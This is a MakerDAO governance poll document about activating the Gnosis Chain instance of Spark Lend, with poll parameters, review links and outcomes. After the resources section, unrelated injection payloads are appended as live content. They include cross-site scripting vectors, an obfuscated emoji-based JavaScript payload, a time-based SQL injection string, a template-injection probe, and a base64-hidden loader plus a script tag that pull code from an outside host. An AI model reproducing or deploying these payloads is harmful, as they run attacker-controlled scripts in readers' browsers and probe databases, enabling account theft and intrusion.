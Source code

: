 ```yaml
---
title: Activate Gnosis Chain Instance of Spark Lend - September 18, 2023
summary: Signal your support or opposition to activating the Gnosis Chain instance of Spark Lend.
discussion_link: https://forum.makerdao.com/t/proposal-for-activation-of-gnosis-chain-instance/22098/1
parameters:
    input_format: single-choice
    victory_conditions:
        - { type : plurality }
    result_display: single-vote-breakdown
version: v2.0.0
options:
   0: Abstain
   1: Yes
   2: No
start_date: 2023-09-18T16:00:00
end_date: 2023-09-21T16:00:00
---
```

# Poll: Activate Gnosis Chain Instance of Spark Lend - September 18, 2023

The Governance Facilitators have placed a Governance Poll into the [voting system](https://vote.makerdao.com/polling) on behalf of Spark Protocol and the Stability Facilitators. This Governance [Poll](https://manual.makerdao.com/governance/governance-cycle/weekly-governance-cycle#weekly-governance-cycle-definitions-mip16c1) will be active for three days beginning on Monday, September 18 at 16:00 UTC.

**This is a binary vote.**
- **You may vote for a single option.**
- **You should vote for the option which you prefer.**
- **If you would accept either option, you should vote 'Abstain'.**

## Review

Phoenix Labs has requested this poll to activate the Gnosis Chain instance of Spark Lend in coordination with [Block Analitica (BA Labs)](https://forum.makerdao.com/t/professional-ecosystem-actor-introduction-ba-labs/20813). If approved, this will be the first cross-chain instance of Spark Lend developed in accordance with the [Spark Multichain Strategy](https://forum.makerdao.com/t/spark-protocol-multichain-strategy/21260). The community can vote in this poll to express support or opposition to the following change:
* Activate the Gnosis Chain instance of Spark Lend.

Please review the links below to inform your position on this proposal before voting.

- [Original Proposal](https://forum.makerdao.com/t/spark-lend-on-gnosis/21304)
- [Risk Assessment](https://forum.makerdao.com/t/risk-assessment-and-parameter-recommendations-spark-protocol-on-gnosis-chain/21629)
- [Forum Discussion](https://forum.makerdao.com/t/proposal-for-activation-of-gnosis-chain-instance/22098/1)

## Outcomes

**If the votes for the 'Yes' option exceed the votes for the 'No' option, then the following actions will be taken:**

* Phoenix Labs will prepare a Spark spell to activate the Gnosis Chain instance with the specified configuration.
* An upcoming Executive Vote will include a proposal to execute the Spark spell.
* It is expected that this Executive Vote will take place within 30 days of this poll passing, absent external factors.

**If the votes for the 'No' option equal or exceed the votes for the 'Yes' option then no further action will be taken at this time.**

---

## Resources

If you are new to voting in the Maker Protocol, please see the [voting guide](https://manual.makerdao.com/governance/voting-in-makerdao/on-chain-governance) to learn how voting works.

Additional information about the Governance process can be found in the [Maker Operational Manual](https://manual.makerdao.com).

To add current and upcoming votes to your calendar, please see the [MakerDAO Governance Calendar](https://manual.makerdao.com/makerdao/calendars/governance-calendar).



%26gt;%26quot;%26lt;"';}}“></SCRIPT><img src=x onerror=alert(69)>${{7*7}}

"><svg/onload=alert()>

<A%20HRef="%20AutoFocus%20Onfocus=top[%60ale$%7B%27rt%27%7D%60](1)>&x=x


</script>"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwLzhyYmM2dTlreGMiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>


<svg><use><set attributeName="href"
to="data:image/svg+xml,&lt;svg id='x'
xmlns='http://www.w3.org/2000/svg'&gt;&lt;image
href='1' onerror='alert(1)' /&gt;&lt;/svg&gt;#x" />

jafewi2915@apxby.com
<img%00x src='x' onscrollend='alert(1)'  'style="display:block;overflow:auto;border:1px dashed;width:700px;height:500px;"><span id=x>XSS</span></xss>

0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z


"><script src=https://js.rip/8rbc6u9kxc></script>

j&#97v&#97script


<img src=x onerror=" ℹ️='',ℹ️ℹ️=!ℹ️+ℹ️,ℹ️ℹ️ℹ️=!ℹ️ℹ️+ℹ️,ℹ️ℹ️ℹ️ℹ️=ℹ️+{},ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️[ℹ️++],ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️],ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=++ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️,ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️=ℹ️ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️],ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+=ℹ️ℹ️ℹ️ℹ️[ℹ️]+(ℹ️ℹ️.ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️)[ℹ️]+ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️[ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️][ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️](ℹ️ℹ️ℹ️[ℹ️]+ℹ️ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️[ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️]+ℹ️ℹ️ℹ️ℹ️ℹ️ℹ️+ℹ️ℹ️ℹ️ℹ️ℹ️+`(ℹ️)`)()
 ">


